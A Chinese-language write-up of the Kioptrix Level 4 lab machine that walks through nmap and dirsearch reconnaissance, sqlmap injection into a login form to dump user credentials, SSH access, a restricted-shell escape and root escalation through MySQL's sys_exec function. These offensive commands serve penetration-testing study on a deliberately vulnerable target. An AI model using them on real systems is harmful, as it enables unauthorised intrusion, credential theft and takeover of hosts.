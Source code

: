 # 一、信息收集

1. 主机发现，如下，192.168.0.105为靶机
   
   ```shell
   nmap -sN 192.168.0.1/24
   ```
   
    ![1.png](./img/KioptrixVM4/1.png)

2. 端口扫描，如下，开放了22、80、135、445端口，80端口有web服务，中间件为Apache httpd 2.2.8，系统Ubuntu，web语言为PHP 5.2.4，smb允许guest登录，且发现一个域名Kioptrix4.localdomain
   
   ```shell
   nmap -sV -sC -T4 192.168.0.105
   ```
   
    ![2.png](./img/KioptrixVM4/2.png)

3. 修改host解析，将靶机ip指向Kioptrix4.localdomain，访问该域名，界面如下
    ![3.png](./img/KioptrixVM4/3.png)

4. 扫描web信息
    ![4.png](./img/KioptrixVM4/4.png)

5. 扫描web目录，如下，发现有checklogin.php、database.sql
   
   ```shell
   dirsearch -u http://Kioptrix4.localdomain -i 200,301
   ```
   
    ![5.png](./img/KioptrixVM4/5.png)

6. 访问database.sql，发现账号密码，数据库名为members，但测试后发现无法登录后台，不是网站的账号密码
    ![6.png](./img/KioptrixVM4/6.png)

7. 扫描主机漏洞，没有发现什么漏洞
   
   ```shell
   nmap --script=vuln 192.168.0.105
   ```

8. 测试一下登录框，发现密码加单引号报错，报错回显了网站绝对路径/var/www/checklogin.php
    ![7.png](./img/KioptrixVM4/7.png)

# 二、getshell

1. 抓包保存为txt文件，使用sqlmap 测试注入，发现为root权限
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch --current-user
   ```
   
    ![8.png](./img/KioptrixVM4/8.png)

2. 获取数据库名，库名为members
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch --dbs
   ```
   
     ![9.png](./img/KioptrixVM4/9.png)

3. 获取表名，表名为members
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch -D members --tables
   ```
   
    ![10.png](./img/KioptrixVM4/10.png)

4. 获取字段名，字段名为id、username、password
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch -D members -T members --columns
   ```
   
    ![11.png](./img/KioptrixVM4/11.png)

5. 获取数据
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch -D members -T members -C 'username,password' --dump
   ```
   
    ![12.png](./img/KioptrixVM4/12.png)

6. 两个账号登录进去都没有功能
    ![13.png](./img/KioptrixVM4/13.png)

7. 使用上面获取到的用户登录ssh，成功获取到shell
    ![14.png](./img/KioptrixVM4/14.png)

# 三、权限提升

1. 上面获取的shell受限，能执行的命令非常有限，尝试sqlmap写入webshell也失败了
   
   ```shell
   echo $SHELL
   ```

2. 由于是受限的shell，可以使用以下命令直接绕过
   
   ```shell
   echo os.system('/bin/bash')
   ```
   
     ![15.png](./img/KioptrixVM4/15.png)

3. john用户没有sudo权限，无法suid提权，使用内核提权失败，此时想到mysql有root权限，可以长mysql提权，先查看checklogin.php文件中是否存在mysql的root密码，如下,root密码为空
        ![16.png](./img/KioptrixVM4/16.png)

4. shell中root登录mysql，如下，登录成功
    ![17.png](./img/KioptrixVM4/17.png)

5. 查看mysql.func，发现存在sys_exec，可以利用该函数执行系统命令
    ![18.png](./img/KioptrixVM4/18.png)

6. 利用sys_exec函数将john用户添加到管理员组
   
   ```SQL
   select sys_exec('usermod -a -G admin john');
   ```
   
    ![19.png](./img/KioptrixVM4/19.png)

7. 退出mysql，sudo su，输入john用户的密码，成功获取root权限
    ![20.png](./img/KioptrixVM4/20.png)
